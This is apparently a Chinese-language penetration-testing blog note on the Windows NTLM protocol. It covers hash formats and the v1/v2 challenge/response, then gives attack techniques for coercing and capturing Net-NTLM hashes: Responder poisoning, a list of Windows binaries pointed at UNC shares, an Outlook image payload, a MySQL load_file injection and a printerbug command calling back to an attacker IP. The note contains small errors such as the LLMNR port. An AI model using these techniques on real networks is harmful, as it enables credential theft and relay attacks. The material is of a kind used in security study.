 ```yaml
---
layout: default
title: NTLM协议
tags: windows
---
```


## 概念

### Hash

windows 内部只保存密码的 hash，并不保存明文密码，本机用户的hash保存在本地的 SAM 文件中，域内用户的 hash 保存在域控的 NTDS.dit 文件中。

windows导出密码时，密码格式通常为：

```
Username:group id:LM Hash:NTLM Hash:::
```

LM Hash 是 windows 早期用的加密算法，为了解决 LM 加密和身份验证中固有的安全弱点，1993年微软引进了 NTLM 协议。从 Windows7 和 Windows Server 2008 开始，默认情况下系统只会存储 NTLM Hash。

### 计算

+ 密码转十六进制格式
+ Unicode 编码
+ MD4

### 身份验证

NTLM 验证是一种 Challenge/Response 验证机制，由三种消息组成：协商、质询、验证

+ 客户端向服务端发送协商信息，主要包含客户端支持和服务器请求的功能列表
+ 服务器响应质询消息，包含服务器支持和同意的功能列表，以及服务器产生的 Challenge
+ 客户端接收到 Challenge 后，用用户 Hash 与 Challenge 进行加密运算得到 Response，将 Response、username、Challenge 作为验证信息发给服务器
+ 服务器拿到验证信息后，用 Challenge 和用户 Hash 进行加密得到 Response2，与验证信息中的 Response 进行比较
+ 如果用户 Hash 存储在域控中，用户服务器就会通过 NetLogon 协议联系域控，建立一个安全通道，将 协商、质询和验证消息都发给域控，这个过程也被称为 Pass Through Authenication 认证流程。域控使用 Challenge 和用户 Hash 进行加密得到 Response2， 与验证消息中的 Response 比较

### NTLM v1/v2

验证中的响应有六种，其中的 NTLM v1 是基于 NT 客户端发送的，包括 Windows 2000 和 XP， NTLM v2 是在 Windows NT Service Pack4 中引入的响应类型。

Challenge/Response验证机制里面type3 response里面包含Net-ntlm hash，NTLM v1响应和NTLMv2响应对应的就是Net-ntlm hash分为Net-ntlm hash v1和Net-ntlm hash v2。

#### NTLM v1

v1 是8位的 Challenge，它的加密算法是将16字节的 NTLM Hash 填充为21个字节，然后分成3组，作为3DES加密算法的3组密钥，加密 Server 发送来的 Challenge，三个密文值连接起来得到 Response。

Net-ntlm hash v1

```
username::hostname:LM response:NTLM response:challenge
```

#### NTLM v2

v2是16位的 Challenge，加密算法：

+ 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标（指定的域或服务器名称）拼在一起，使用 16字节 NTLM Hash 作为密钥，得到一个值
+ 构建 blob 信息
+ 用 NTLM v2 Hash 作为密钥，将 HMAC-MD5 消息认证代码算法加密来自质询的 Challenge 与 Blob 拼接在一起，得到一个16字节的 NTProofStr
+ 将 NTProofStr 与 Blob 拼接起来得到 Response

Net-ntlm hash v2

```
username::domain:challenge:HMAC-MD5:blob
```



## NTLM 请求

### LLMNR 和 NBNS

windows 解析域名顺序：

+ hosts
+ DNS
+ LLMNR
+ NBNS

#### LLNMR

LLMNR 是一种基于 DNS 数据包的格式，监听端口为 UDP：5535，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。LLNMR 采取的是广播的形式，当主机访问一个不存在的域名时，在本机 hosts 中没找到，DNS也无法解析，就会通过 LLMNR 协议进行广播，通过 Responder 进行响应，告知域名解析IP就可以进行类似 ARP 投毒的 LLMNR 投毒，进而获取主机的 NTLM v2 Hash。

#### NBNS

NBNS 全称为 NetBIOS Name Service。NetBIOS 解析过程为：

+ 检查本地 NetBIOS 缓存
+ 如果缓存中没有且配置了 WINS 服务器，就会向 WINS 服务器发出请求
+ 如果没有配置 WINS 服务器或 WINS 服务器无响应就会向当前子网域发送广播
+ 广播无回应就会读取本地的 lmhosts 文件（C:\Windows\System32\drivers\etc\）

在没有配置 WINS 服务器的情况下，NBNS 也会进行广播，所以也存在 NBNS 投毒。



### 使用 Responder 抓取NTLM v2 Hash

在kali下执行

```
responder -I eth0 -v
```

目标机器执行

```
net use \\123\1
```

网络上的用户需要访问没有 IP 或用户类型分析名的 share，就会触发到网络的 LLMNR 请求，responder 就会伪装成该访问的机器，从而获得 NTLM v2 Hash

![image-20210618105818213](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210618105818213.png)



### 发起 NTLM 请求

#### 执行命令

```
 net.exe use \hostshare 
 attrib.exe \hostshare  
 bcdboot.exe \hostshare  
 bdeunlock.exe \hostshare  
 cacls.exe \hostshare  
 certreq.exe \hostshare #(noisy, pops an error dialog) 
 certutil.exe \hostshare  
 cipher.exe \hostshare  
 ClipUp.exe -l \hostshare  
 cmdl32.exe \hostshare  
 cmstp.exe /s \hostshare  
 colorcpl.exe \hostshare #(noisy, pops an error dialog)  
 comp.exe /N=0 \hostshare \hostshare  
 compact.exe \hostshare  
 control.exe \hostshare  
 convertvhd.exe -source \hostshare -destination \hostshare  
 Defrag.exe \hostshare  
 diskperf.exe \hostshare  
 dispdiag.exe -out \hostshare  
 doskey.exe /MACROFILE=\hostshare  
 esentutl.exe /k \hostshare  
 expand.exe \hostshare  
 extrac32.exe \hostshare  
 FileHistory.exe \hostshare #(noisy, pops a gui)  
 findstr.exe * \hostshare  
 fontview.exe \hostshare #(noisy, pops an error dialog)  
 fvenotify.exe \hostshare #(noisy, pops an access denied error)  
 FXSCOVER.exe \hostshare #(noisy, pops GUI)  
 hwrcomp.exe -check \hostshare  
 hwrreg.exe \hostshare  
 icacls.exe \hostshare   
 licensingdiag.exe -cab \hostshare  
 lodctr.exe \hostshare  
 lpksetup.exe /p \hostshare /s  
 makecab.exe \hostshare  
 msiexec.exe /update \hostshare /quiet  
 msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
 mspaint.exe \hostshare #(noisy, invalid path to png error)  
 msra.exe /openfile \hostshare #(noisy, error)  
 mstsc.exe \hostshare #(noisy, error)  
 netcfg.exe -l \hostshare -c p -i foo
```

#### outlook

邮件支持 html 格式，同时图片路径支持 UNC，所以可以构造 payload：

```
<img src="\\192.168.1.1\outlook">
```

#### Mysql

Mysql注入可以进行带外通信将数据带出来,前提是具备load_file权限，且没有secure_file_priv的限制，LOAD_FILE 也支持 UNC 路径

```
select load_file('\\\\192.168.1.1\\mysql');
```

#### 打印机

Windows 默认启用 MS-RPRN 协议，勇于打印机客户端和服务端的通信，任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。

```
ython printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```